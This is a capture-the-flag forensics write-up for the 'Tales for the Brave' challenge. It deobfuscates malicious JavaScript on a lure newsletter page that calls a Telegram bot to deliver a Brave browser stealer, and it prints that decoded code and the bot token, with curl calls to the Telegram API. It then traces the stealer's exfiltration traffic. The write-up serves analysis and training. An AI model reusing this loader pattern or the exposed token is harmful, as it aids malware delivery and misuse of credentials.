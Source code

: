 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | Tales for the Brave Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: forensics
challenge: Tales for the Brave
tags: "forensics, twh, javascript, obfuscation, api, win32pe, wireshark"
date: 2025-03-29T00:00:00+00:00
last_update: 2025-03-29T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2025</h1>


## Tales for the Brave
> Solved by thewhiteh4t


- This was an interesting one because we were given a website as the starting point
- Looking at the source code, we can see `index.js` is loaded, contents :


![](https://i.imgur.com/JCKcHuS.png)

- So the javascript is obfuscated and uses `CryptoJS`, we can use an online deobfuscator : 


![](https://i.imgur.com/XjIy88q.png)

- Another better alternative is to use debugger in the browser, using debugger is simple, just open tools, click on debugger, hit pause and submit the form and the decoded javascript is revealed : 


![](https://i.imgur.com/bLswUQG.png)

- I copied this code into a `.js` file and cloned the website as well :

```
    > cat index.html
    <!DOCTYPE html>
    <html lang="en"><head>
      <meta charset="UTF-8">
      <meta name="viewport" content="width=device-width, initial-scale=1.0">
      <title>Newsletter Signup</title>
      <link rel="stylesheet" href="index.css">
      <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.9-1/crypto-js.js"></script>
    </head>
    <body>
      <div class="newsletter">
        <div class="image-section">
          <img src="img/storytellingEldoriaMyths.png" alt="Rings">
        </div>
        <div class="form-section">
          <h1>Tales of Eldoria: Stories of Magic and Bravery for the Young and Curious</h1>
          <p>In the mystical lands of Eldoria, where dragons soar and ancient magic pulses through the air, storytelling is more than just a pastime—it's a tradition that bridges generations. Imagine a magical evening where children gather around glowing crystal orbs, listening to the mesmerizing myths and legends of Eldoria. These tales teach courage, friendship, and the magic of harmony.</p>
          <form id="newsletterForm">
            <input type="email" id="email" placeholder="Email">
                    <input type="text" id="descriptionField" placeholder="Description">
            <div class="checkbox-group">
              <p>The newsletter offers:</p>
              <label><input class="cb" id="c1" type="checkbox"> Legends of Dragons</label>
              <label><input class="cb" id="c2" type="checkbox"> Ancient Magic</label>
              <label><input class="cb" id="c3" type="checkbox"> Adventures of Heroes</label>
              <label><input class="cb" id="c4" type="checkbox"> Eldoria Myths</label>
            </div>
            <div class="buttons">
                <button type="submit" data-node-outlined="false" class="button primary">SUBMIT</button>
            </div>
          </form>
        </div>
      </div>
      <script src="./decrypted.js"></script>
    
    
    </body></html>
```

- After some inspection I noticed an interesting variable `_$_5975` and how it was used :

```
    function f(oferkfer, icd) { const channel_id = -1002496072246; var enc_token = _$_5975\\[0]; if (oferkfer === G(_$_5975[1]) && CryptoJS[_$_5975[7]\](sequence[_$_5975[6]](_$_5975[5]))\[_$_5975[4]\](CryptoJS[_$_5975[3]\][_$_5975[2]]) === _$_5975\\[8]) { var decrypted = CryptoJS[_$_5975[12]\][_$_5975[11]\](enc_token, CryptoJS\[_$_5975[3]\][_$_5975[9]]\[_$_5975[10]](oferkfer), { drop: 192 })\[_$_5975[4]\](CryptoJS[_$_5975[3]\][_$_5975[9]]); var HOST = _$_5975\\[13] + String[_$_5975[14]\](0x2f) + String\[_$_5975[14]\](0x62) + String\[_$_5975[14]\](0x6f) + String\[_$_5975[14]\](0x74) + decrypted; var xhr = new XMLHttpRequest(); xhr\[_$_5975[15]] = function () { if (xhr[_$_5975[16]] == XMLHttpRequest[_$_5975[17]]) { const resp = JSON[_$_5975[10]\](xhr[_$_5975[18]]); try { const link = resp\[_$_5975[20]\][_$_5975[19]]; window\[_$_5975[23]\][_$_5975[22]\](link) } catch (error) { alert(_$_5975\[24]) } } }; xhr[_$_5975[29]\](_$_5975[25], HOST + String[_$_5975[14]](0x2f) + _$_5975\[26] + icd + _$_5975[27] + channel_id + _$_5975[28]); xhr[_$_5975[30]\](null) } else { alert(_$_5975[24]) } }
```

- Its an array and multiple items from the array were being used, so I decided to print the array, by adding a small loop : 

```
    for (var i = 0; i < 31; i++) {
      console.log(i, _$_5975[i])
    }
```

![](https://i.imgur.com/saOoRYc.png)

- As we can see, some encoded strings, parts of a URL, telegram and most importantly `RC4Drop` which is a type of cipher available in `CryptoJS`
- After this I substituted the values according to array index and ended up with the following :

```
    if (oferkfer === G('s3cur3k3y') && CryptoJS.SHA256(sequence.join('')).toString(CryptoJS.enc.Base64) === '18m0oThLAr5NfLP4hTycCGf0BIu0dG+P/1xvnW6O29g=') {
            var decrypted = CryptoJS.RC4Drop.decrypt(enc_token, CryptoJS.enc.Utf8.parse(oferkfer), {
                drop: 192
            }).toString(CryptoJS.enc.Utf8);
            var HOST = 'https://api.telegram.org' + String.fromCharCode(0x2f) + String.fromCharCode(0x62) + String.fromCharCode(0x6f) + String.fromCharCode(0x74) + decrypted;
    
            var xhr = new XMLHttpRequest();
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE) {
                    const resp = JSON.parse(xhr.responseText);
                    try {
                        const link = resp.result.text;
                        window.location.replace(link)
                    } catch (error) {
                        alert('Form submitted!')
                    }
                }
            };
            console.log('GET', HOST + String.fromCharCode(0x2f) + 'forwardMessage?chat_id=' + icd + '&from_chat_id=' + channel_id + '&message_id=5')
            xhr.open('GET', HOST + String.fromCharCode(0x2f) + 'forwardMessage?chat_id=' + icd + '&from_chat_id=' + channel_id + '&message_id=5');
            //xhr.send(null)
        } else {
            alert('Form submitted!')
        }
```

- Decryption block is executed if the condition is satisfied : 

```
    oferker -> email before @tld
    G('s3cur3k3y') -> 0p3r4t10n_4PT_Un10n
```

- So the email to satisfy the condition should be `0p3r4t10n_4PT_Un10n@abc.com` but since the script is running locally we can simply bypass the conditions
- In the end the code block sends a GET request so I inspected the URL : 

```
    console.log('GET', HOST + String.fromCharCode(0x2f) + 'forwardMessage?chat_id=' + icd + '&from_chat_id=' + channel_id + '&message_id=5')
    
    GET https://api.telegram.org/bot7767830636:AAF5Fej3DZ44ZZQbMrkn8gf7dQdYb3eNxbc/forwardMessage?chat_id=NaN&from_chat_id=-1002496072246&message_id=5 decrypted.js:128:17
```

- So the telegram API is being called and we get the following things : 

```
    Bot ID : bot7767830636
    Bot token : AAF5Fej3DZ44ZZQbMrkn8gf7dQdYb3eNxbc
    chat_id : Null
    from_chat_id : -1002496072246
    message_id : 5
```

- `forwardMessage` does exactly what the name suggests, it will forward a message from one chat to another, but some requirements need to be fulfilled for this to happen : 

```
    Bot should be present on both chats
```

- But in the URL we can see that `chat_id` is missing, so we will make our own by creating a `group` in telegram and then we can add the bot to our group
- But we don’t know the name of the bot, to solve this there is another endpoint we can call : 

```
    > curl -s 'https://api.telegram.org/bot7767830636:AAF5Fej3DZ44ZZQbMrkn8gf7dQdYb3eNxbc/getMe' | json_pp
    
    {
       "ok" : true,
       "result" : {
          "can_connect_to_business" : false,
          "can_join_groups" : true,
          "can_read_all_group_messages" : false,
          "first_name" : "OperationEldoriaBot",
          "has_main_web_app" : false,
          "id" : 7767830636,
          "is_bot" : true,
          "supports_inline_queries" : false,
          "username" : "OperationEldoriaBot"
       }
    }
```

- After adding the bot to our group we can iterate from message IDs `1 - 10` to get all the messages : 


![](https://i.imgur.com/1b1xrhh.png)



- We got a zip file which contains a tool that targets Brave browser, inside the zip is a windows PE file
- Time for dynamic analysis, after using `Process Explorer, Process Monitor` etc I finally checked `WireShark` for network activity because a browser stealer is expected to send the information
- And a single DNS query popped up : `z0lsc2S65u.htb` which obviously does not exists
- So I did the following :

```
    Added the domain in windows Hosts file
    Started a PHP server on my other box on port 31337 as seen in wireshark
    Launched Brave.exe again
```

![](https://i.imgur.com/Iaaj6RH.png)



- And we get a POST request to our server


![](https://i.imgur.com/LTALsWD.png)



- JSON data was being sent but more interestingly there was an `Authorization` header with JWT :


![](https://i.imgur.com/vTH0E4n.png)

- Double base64 encoded flag : 

```
    HTB{APT_c0nsp1r4c13s_b3h1nd_b3n1gn_l00k1ng_s1t3s}
```
